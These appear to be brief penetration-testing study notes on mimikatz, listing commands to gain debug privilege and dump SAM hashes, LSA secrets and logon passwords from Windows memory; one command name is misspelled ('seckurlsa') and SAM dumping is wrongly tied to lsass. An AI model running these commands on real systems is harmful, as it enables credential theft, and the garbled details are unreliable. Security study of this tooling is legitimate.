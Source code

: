 - Windows post exploitation tool to dump password hashes, Kerberos tickets from memory
- Makes the use of lsass.exe process which contains caches password hashes in it's memory.
```bash
.\mimikatz.exe
```
- Check if nessesary privilege are there or not
	```bash
	privilege::debug
	<should print '20' OK
	```
- Dump hashes from lsass process
	```bash
	lsadump::sam
	```
- Dump secrets from lsass process
	```bash
	lsadump::secrets
	```
- Dump logon passwords
	```bash
	seckurlsa::logonpasswords
	```